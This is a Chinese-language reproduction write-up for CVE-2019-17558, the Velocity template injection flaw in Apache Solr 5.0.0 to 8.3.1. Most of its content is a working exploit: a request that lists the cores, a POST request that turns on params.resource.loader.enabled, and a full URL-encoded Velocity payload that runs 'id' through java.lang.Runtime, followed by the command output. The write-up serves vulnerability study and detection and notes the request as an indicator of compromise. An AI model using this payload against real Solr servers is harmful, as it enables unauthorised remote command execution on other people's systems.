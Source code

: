 # CVE-2019-17558

## 概述 

Apache Solr 是一个开源的搜索服务器。

在其 5.0.0 到 8.3.1版本中，用户可以注入自定义模板，通过Velocity模板语言执行任意命令。

攻击者通过未授权访问solr服务器，发送特定的数据包开启params.resource.loader.enabled，然后get访问接口导致服务器命令执行。


## 复现

查看 all cores:

http://ip:8983/solr/admin/cores?indexInfo=false&wt=json

	{
	  "responseHeader":{
	    "status":0,
	    "QTime":0},
	  "initFailures":{},
	  "status":{
	    "demo":{
	      "name":"demo",
	      "instanceDir":"/var/solr/data/demo",
	      "dataDir":"/var/solr/data/demo/data/",
	      "config":"solrconfig.xml",
	      "schema":"managed-schema",
	      "startTime":"2020-11-02T08:54:31.126Z",
	      "uptime":46243}}}

默认情况下params.resource.loader.enabled配置未打开，无法使用自定义模板。

通过如下请求开启params.resource.loader.enabled，其中API路径包含刚才获取的core名称：

	POST /solr/demo/config HTTP/1.1
	Host: solr:8983
	Content-Type: application/json
	Content-Length: 259
	
	{
	  "update-queryresponsewriter": {
	    "startup": "lazy",
	    "name": "velocity",
	    "class": "solr.VelocityResponseWriter",
	    "template.base.dir": "",
	    "solr.resource.loader.enabled": "true",
	    "params.resource.loader.enabled": "true"
	  }
	}

执行命令主要在后面的get请求：

	http://your-ip:8983/solr/demo/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end

response：

	HTTP/1.1 200 OK
	Content-Type: text/html;charset=utf-8
	Content-Length: 56
	
	     0  uid=8983(solr) gid=8983(solr) groups=8983(solr)

入侵指标以后面的get请求为准。

![](1.png)